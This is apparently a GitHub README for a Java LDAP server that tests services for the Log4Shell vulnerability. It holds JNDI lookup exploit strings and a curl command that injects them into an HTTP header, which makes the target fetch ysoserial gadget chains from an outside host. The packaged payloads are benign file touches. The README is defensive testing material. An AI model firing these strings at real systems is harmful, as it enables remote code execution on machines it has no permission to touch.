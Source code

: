 ## Description

A simple java LDAP host that will respond with a benign jdk11+ exploitable gadget chain payload. Useful for generating exploit logs, and testing if your services are vulnerable to a set of well-known follow-up gadget chains that are needed to exploit this vulnerability on newer jdk versions.

### Payloads

The pre-packaged exploit payloads simply run `touch /<payload name>.txt`, e.g. `touch /CommonsCollections6.txt` on the target. They were generated with [ysoserial](https://github.com/frohoff/ysoserial).

## Build
docker-compose build

## Run
docker-compose up

## Usage

1. Pick a payload from the list of gadget chains available in [ysoserial](https://github.com/frohoff/ysoserial).
2. Build your exploit string with your ldap host's IP and the name of the ysoserial payload you wish to use, if any
   * `${jndi:ldap://<host.ip.address>:1337/[gadget chain payload>]`
   * `${jndi:ldap://192.168.1.5:1337/CommonsCollections6}`
3. Use any of the many mechanisms at your disposal to attempt to trigger the log4shell exploit with that string. log4dap will display an error, but the fact you know the target attempted to load a class tells you you're vulnerable.

#### Example
`curl  -H '<some-header or other property you're testing> : ${jndi:ldap://<host.ip.address>:1337/<gadget chain payload>}' http://target.hostname/some/endpoint`


## Credits

This is based almost entirely on the work shared [here](https://www.cnblogs.com/yyhuni/p/15088134.html) ([english version](https://www.cnblogs.com/yyhuni/p/15088134.html)), as well as [ysoserial](https://github.com/frohoff/ysoserial).